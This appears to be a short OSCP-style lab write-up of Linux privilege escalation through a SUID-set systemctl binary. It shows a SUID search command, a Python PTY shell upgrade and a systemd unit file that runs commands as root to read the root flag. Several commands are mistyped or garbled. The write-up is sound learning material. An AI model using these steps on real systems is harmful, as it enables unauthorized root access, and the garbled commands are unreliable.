 **Service Exploited:  
Vulnerability Type:
Exploit POC:**
**Description**: 

**++Discovery of Vulnerability++**
search for all SUID bits set:
SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).
For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

find . -perm /4000 2./dev/null
/bin/systemctl stood out

<https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49>
*renamed to phtml to upload


Upgrade to PTY shell:
python -c ‘import.pty: pty.spawn("/bin/bash")’

**++Exploit Code Used++**
priv=$(mktemp).service

echo '[Service]
>ExecStart=/bin/bash -c “cat /root/root.txt > /opt/flag”
>[Install]
>WantedBy=multi-user.target' > $priv

#run the unit file using systemctl
/bin/systemctl link $priv
/bin/systemctl enable --now $priv

excuted as root
cat /opt/flag




**++Proof\Local.txt File++**

   - [ ] Screenshot with ifconfig\ipconfig
   - [ ] Submit too OSCP Exam Panel

